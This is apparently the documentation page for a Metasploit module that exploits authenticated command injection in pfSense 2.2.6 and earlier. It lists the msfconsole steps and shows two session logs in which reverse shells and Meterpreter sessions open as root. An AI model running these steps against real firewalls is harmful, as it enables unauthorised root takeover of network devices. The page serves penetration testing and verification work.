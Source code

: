 ## Description

  This module exploits a vulnerability in pfSense version 2.2.6 and before which allows an authenticated user to execute arbitrary operating system commands as root.

## Vulnerable Application

  This module has been tested successfully on version 2.2.6-RELEASE, 2.2.5-RELEASE, and 2.1.3-RELEASE

  Installers:

  * [pfSense 2.2.6-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.2.6-RELEASE-amd64.iso.gz)
  * [pfSense 2.2.5-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.2.5-RELEASE-amd64.iso.gz)
  * [pfSense 2.1.3-RELEASE](https://nyifiles.pfsense.org/mirror/downloads/old/pfSense-LiveCD-2.1.3-RELEASE-amd64.iso.gz)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/pfsense_graph_injection_exec`
  3. Do: `set RHOST [IP]`
  4. Do: `set USERNAME [username]`
  5. Do: `set PASSWORD [password]`
  6. Do: `set LHOST [IP]`
  7. Do: `exploit`

## Scenarios

### pfSense Community Edition 2.2.6-RELEASE

```
msf exploit(unix/http/pfsense_graph_injection_exec) > use exploit/unix/http/pfsense_graph_injection_execmsf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 2.2.2.2
RHOST => 2.2.2.2
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST 1.1.1.1
LHOST => 1.1.1.1
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit 

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Detected pfSense 2.2.6-RELEASE, uploading initial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (37543 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:42116) at 2018-01-01 17:17:36 -0600

meterpreter > sysinfo
Computer    : pfSense.localdomain
OS          : FreeBSD pfSense.localdomain 10.1-RELEASE-p25 FreeBSD 10.1-RELEASE-p25 #0 c39b63e(releng/10.1)-dirty: Mon Dec 21 15:20:13 CST 2015     root@pfs22-amd64-builder:/usr/obj.RELENG_2_2.amd64/usr/pfSensesrc/src.RELENG_2_2/sys/pfSense_SMP.10 amd64
Meterpreter : php/freebsd
meterpreter > getuid
Server username: root (0)
meterpreter > 
```

### pfSense Community Edition 2.1.3-RELEASE

```
msf > use exploit/unix/http/pfsense_graph_injection_exec
msf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 2.2.2.2
RHOST => 2.2.2.2
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST 1.1.1.1
LHOST => 1.1.1.1
msf exploit(unix/http/pfsense_graph_injection_exec) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading initial payload
[*] Payload uploaded successfully, executing
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:3454) at 2018-01-01 15:49:38 -0600
uname -a

FreeBSD pfSense.localdomain 8.3-RELEASE-p16 FreeBSD 8.3-RELEASE-p16 #0: Thu May  1 16:19:14 EDT 2014     root@pf2_1_1_amd64.pfsense.org:/usr/obj.amd64/usr/pfSensesrc/src/sys/pfSense_SMP.8  amd64
```
